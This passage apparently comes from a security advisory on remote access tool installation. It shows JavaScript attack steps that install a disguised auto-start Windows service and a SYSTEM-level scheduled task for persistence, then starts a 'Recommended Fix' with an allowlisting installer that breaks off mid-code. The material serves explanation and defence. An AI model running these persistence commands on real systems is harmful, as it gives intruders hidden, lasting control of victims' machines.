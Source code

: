 ### Step 3: Service Persistence
```javascript
// Vulnerable service creation for persistence
const createMaliciousService = () => {
    const serviceName = 'SystemMaintenance';
    const servicePath = 'C:\\Program Files\\LegitimateApp\\service.exe';
    
    // Vulnerable: Service creation without proper validation
    const createServiceCommand = `sc create "${serviceName}" binPath= "${servicePath}" start= auto DisplayName= "System Maintenance Service"`;
    
    try {
        execSync(createServiceCommand, { windowsHide: true });
        execSync(`sc start "${serviceName}"`, { windowsHide: true });
        console.log('Malicious service created and started');
    } catch (error) {
        console.error('Service creation failed:', error);
    }
};
```

### Step 4: Scheduled Task Persistence
```javascript
// Vulnerable scheduled task creation
const createScheduledTask = () => {
    const taskName = 'SystemHealthCheck';
    const taskPath = 'C:\\Program Files\\LegitimateApp\\healthcheck.exe';
    
    // Vulnerable: Task creation with system privileges
    const taskCommand = `schtasks /create /tn "${taskName}" /tr "${taskPath}" /sc minute /mo 5 /ru SYSTEM /f`;
    
    try {
        execSync(taskCommand, { windowsHide: true });
        console.log('Scheduled task created for persistence');
    } catch (error) {
        console.error('Task creation failed:', error);
    }
};
```

## Recommended Fix

### Immediate Fix - Secure Installation Process
```typescript
// Secure remote access tool installation
class SecureRemoteAccessInstaller {
    private allowedTools = ['approved_tool_1', 'approved_tool_2'];
    private allowedPaths = ['C:\\Program Files\\ApprovedApps'];
    private requiredSignatures = ['Microsoft', 'VerifiedPublisher'];
    
    async installTool(toolName: string, installPath: string): Promise<boolean> {
        // Validate tool name
        if (!this.allowedTools.includes(toolName)) {
            throw new Error(`Tool ${toolName} not in allowed list`);
        }
        
        // Validate install path
        if (!this.allowedPaths.some(path => installPath.startsWith(path))) {
            throw new Error(`Install path ${installPath} not allowed`);
        }
        
        // Verify tool signature
```